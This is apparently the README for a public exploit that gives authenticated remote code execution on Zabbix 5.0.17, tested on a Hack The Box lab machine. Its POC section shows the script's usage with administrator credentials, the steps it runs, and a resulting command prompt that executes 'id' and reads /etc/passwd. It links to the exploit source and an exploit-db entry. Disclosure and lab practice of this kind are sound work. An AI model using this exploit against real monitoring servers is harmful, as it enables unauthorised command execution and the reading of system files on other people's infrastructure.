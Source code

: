 # Zabbix 5.0.17 -  Remote Code Execution (Authenticated) 
Zabbix is an open-source software tool to monitor IT infrastructure such as networks, servers, virtual machines, and cloud services. Zabbix collects and displays basic metrics. 

## Exploit Infos:
Finder: Hussien Misbah
Date: 09.03.2022
Affected Version: 5.0.17 
Build Time: 18.10.2021
Risk: High

### About exploit :
- this exploit is tested against Zabbix 5.0.17 only
- the account used is the Administrator account 

---

## POC 
```
$ ./exploit.py
Usage: ./expoit.py <target url> <username> <password>
Example: ./exploit.py http://example.com Administrator Password123
$ ./exploit.py http://monitoring.shibboleth.htb Administrator ilovepumkinpie1
[*] Get hostId: 10084
[*] Get sid: 425f48afe7a6c98f
[*] Edit item successfully
cmd> id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)

cmd> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false

cmd> exit
Bye

```

---

### Links:
Hussien Misbah:
* https://github.com/HussienMisbah/tools/tree/master/Zabbix_exploit
* https://www.exploit-db.com/exploits/50816
Hack The Box:
* https://app.hackthebox.com/machines/Shibboleth
* https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html
